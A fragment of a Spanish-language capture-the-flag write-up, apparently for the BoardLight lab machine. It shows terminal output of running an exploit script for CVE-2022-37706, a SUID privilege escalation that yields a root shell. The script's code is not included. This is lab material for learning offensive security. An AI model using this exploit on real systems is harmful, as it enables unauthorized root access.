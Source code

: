 Ejecutamos el `exploit` y nos convertimos en `usuario root`

```
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```
